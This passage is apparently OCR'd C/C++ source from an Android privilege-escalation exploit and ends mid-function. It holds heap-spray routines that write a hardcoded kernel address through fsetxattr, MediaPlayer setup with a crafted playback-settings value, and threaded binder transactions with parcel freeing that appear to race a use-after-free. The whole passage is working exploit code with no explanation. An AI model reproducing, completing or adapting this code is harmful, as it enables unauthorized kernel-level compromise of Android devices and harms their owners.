 ```
void heap_spray()
{
	char buff[BUFF_SIZE];
	memset(buff, 0 ,BUFF_SIZE);
	*(size_t *)((char *)buff + 64) = 20;
	*(size_t *)((char *)buff + 88) = 0xffffffc001e50834;
	fsetxattr(fd_heap_spray, "user.x", buff, BUFF_SIZE, 0);
}

void heap_spray_times()
{
	for (int i = 0; i < HEAP_SPRAY_TIME; i++)
	{
		heap_spray();
		heapGuard();
	}
}

void init_fd_heap_spray()
{
	const char * path = "/data/local/tmp/test_dir/abcd.txt";
        fd_heap_spray = open(path, O_WRONLY);
	if (fd_heap_spray < 0)
	{
		printf("[-] fd_heap_spray failed\n");
	}
}

status_t init_reply_data()
{
	setDataSource();
	AudioPlaybackRate rate;
	rate.mSpeed = 1;
	rate.mPitch = 1;
	rate.mStretchMode = (AudioTimestretchStretchMode)0;
	rate.mFallbackMode = (AudioTimestretchFallbackMode)0x80000e71;
        return mediaPlayer->setPlaybackSettings(rate);
}

void bc_free_buffer(int replyParcelIndex)
{
	replyArray[replyParcelIndex].~Parcel();
	IPCThreadState::self()->flushCommands();
}

void* bc_transaction(void *arg)
{
	pthread_mutex_lock(&alloc_mutex);
	while(1) 
	{
		pthread_cond_wait(&alloc_cond, &alloc_mutex);
		dataBCArray[global_parcel_index].writeInterfaceToken(String16("android.media.IMediaPlayer"));
                IInterface::asBinder(mediaPlayer)->transact(GET_PLAYBACK_SETTINGS, dataBCArray[global_parcel_index], &replyBCArray[global_parcel_index], 0);
	}
	pthread_mutex_unlock(&alloc_mutex);
    	//const uint8_t * replyData = reply.data();
	return arg;
}

void restartWatch()
{
```